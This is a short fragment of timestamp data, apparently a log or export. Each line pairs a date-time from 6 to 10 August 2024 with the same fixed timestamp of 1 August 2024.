2024-08-06 22:39:50.935000 8/1/2024, 12:37:30.277 PM
2024-08-07 22:35:04.077000 8/1/2024, 12:37:30.277 PM
2024-08-07 22:39:14.337000 8/1/2024, 12:37:30.277 PM
2024-08-08 22:39:23.675000 8/1/2024, 12:37:30.277 PM
2024-08-09 22:34:59.419000 8/1/2024, 12:37:30.277 PM
2024-08-09 22:40:11.127000 8/1/2024, 12:37:30.277 PM
2024-08-10 22:34:53.039000 8/1/2024, 12:37:30.277 PM
2024-08-10 22:40:02.292000 8/1/2024, 12:37:30.